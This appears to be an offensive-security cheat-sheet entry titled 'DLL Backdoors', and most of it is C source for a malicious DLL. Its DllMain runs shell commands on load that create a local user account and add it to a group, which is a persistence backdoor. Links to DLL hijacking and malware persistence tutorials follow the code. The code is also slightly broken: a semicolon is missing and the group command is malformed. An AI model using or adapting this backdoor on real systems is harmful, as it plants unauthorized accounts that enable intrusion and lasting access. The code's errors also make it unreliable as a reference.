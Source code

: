 # DLL Backdoors

## 01 - Manual

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason,
    LPVOID lpReserved) {
    switch(fdwReason) { 
        case DLL_PROCESS_ATTACH:
         system("cmd /c net user <username> <password> /add /y & net user localgroup \"<group_name>\" \"<username>\" /add /y")
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
        case DLL_PROCESS_DETACH:
            break;
    }

    return TRUE;  
}
```

---
## References

### TBHaxor

- [TBHaxor: Loading DLLs Using CPP in Windows](https://tbhaxor.com/loading-dlls-using-cpp-in-windows/)

### Cocomelonc

- [Cocomelonc: Malware Persistence Part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)

### Elliot on Security

- [Elliot on Security: Perfect DLL Hijacking](https://elliotonsecurity.com/perfect-dll-hijacking/)